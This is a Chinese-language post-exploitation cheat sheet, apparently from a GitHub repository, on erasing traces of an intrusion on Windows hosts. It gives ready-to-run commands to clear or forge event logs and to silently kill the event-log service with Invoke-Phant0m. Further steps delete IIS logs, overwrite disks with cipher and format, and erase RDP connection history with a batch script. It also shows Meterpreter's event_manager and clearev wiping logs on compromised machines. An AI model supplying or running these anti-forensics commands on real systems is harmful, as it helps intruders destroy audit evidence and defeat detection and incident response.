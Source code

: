 # Windows入侵痕迹清理

### Windows日志清除

**windows 日志路径：**

```cmd
系统日志：%SystemRoot%\System32\Winevt\Logs\System.evtx
安全日志：%SystemRoot%\System32\Winevt\Logs\Security.evtx
应用程序日志：%SystemRoot%\System32\Winevt\Logs\Application.evtx
日志在注册表的键：HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Eventlog
```

**windows 日志清除方式：**

**（1）最简单粗暴的方式**

win+R，输入 eventvwr 进入事件查看器，右边栏选择清除日志。

**（2）命令行一键清除Windows事件日志**

```cmd
PowerShell -Command "& {Clear-Eventlog -Log Application,System,Security}"

Get-WinEvent -ListLog Application,Setup,Security -Force | % {Wevtutil.exe cl $_.Logname}
```

**（3）利用脚本停止日志的记录**

通过该脚本遍历事件日志服务进程（专用svchost.exe）的线程堆栈，并标识事件日志线程以杀死事件日志服务线程。

因此，系统将无法收集日志，同时事件日志服务似乎正在运行。

```cmd
https://github.com/hlldz/Invoke-Phant0m
```

**（4）Windows单条日志清除**

该工具主要用于从Windows事件日志中删除指定的记录。

```cmd
https://github.com/QAX-A-Team/EventCleaner
```

**（5）Windows日志伪造**

使用eventcreate这个命令行工具来伪造日志或者使用自定义的大量垃圾信息覆盖现有日志。

```cmd
eventcreate -l system -so administrator -t warning -d "this is a test" -id 500
```

### IIS日志

**IIS默认日志路径：**

```cmd
%SystemDrive%\inetpub\logs\LogFiles\W3SVC1\
```

**清除WWW日志：**

```cmd
停止服务：net stop w3svc
删除日志目录下所有文件：del *.*
启用服务：net start w3svc
```

### 利用Windows自带命令进行安全擦除

**（1）Shift+Delete快捷键永久删除**

直接删除文件，还是能在回收站找到的，使用Shift+Delete快捷键可以直接永久删除了。但是用数据恢复软件，删除的文件尽快恢复，否则新的文件存入覆盖了原来的文件痕迹就很难恢复了。

**（2）Cipher 命令多次覆写**

在删除文件后，可以利用Cipher 命令通过 /W 参数可反复写入其他数据覆盖已删除文件的硬盘空间，彻底删除数据防止被恢复。

比如，删除D:\tools目录下的文件，然后执行这条命令：

```cmd
cipher /w:D:\tools
```

这样一来，D 盘上未使用空间就会被覆盖三次：一次 0x00、一次 0xFF，一次随机数，所有被删除的文件就都不可能被恢复了。

（3）Format命令覆盖格式化

Format 命令加上 /P 参数后，就会把每个扇区先清零，再用随机数覆盖。而且可以覆盖多次。比如：

```cmd
format D: /P:8
```

这条命令表示把 D 盘用随机数覆盖 8 次。

### 清除远程桌面连接记录

当通过本机远程连接其他客户端或服务器后，会在本机存留远程桌面连接记录。代码保存为clear.bat文件，双击运行即可自动化清除远程桌面连接记录。

```cmd
@echo off
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"
cd %userprofile%\documents\
attrib Default.rdp -s -h
del Default.rdp
```

### Metasploit 痕迹清除

**（1）查看事件日志**

```cmd
meterpreter > run event_manager  -i  

[*] Retriving Event Log Configuration

Event Logs on System
====================

 Name                    Retention  Maximum Size  Records

----                    ---------  ------------  -------

 Application             Disabled   20971520K     2149
 HardwareEvents          Disabled   20971520K     0
 Internet Explorer       Disabled   K             0
 Key Management Service  Disabled   20971520K     0
 Security                Disabled   20971520K     1726
 System                  Disabled   20971520K     3555
 Windows PowerShell      Disabled   15728640K     138
```

**（2）清除事件日志（包括六种日志类型）**

```cmd
meterpreter > run event_manager  -c
```

**（3）另外，也可以输入clearv命令清除目标系统的事件日志（仅包含三种日志类型）**

```cmd
meterpreter > clearev 
[*] Wiping 4 records from Application...
[*] Wiping 8 records from System...
[*] Wiping 7 records from Security...
```

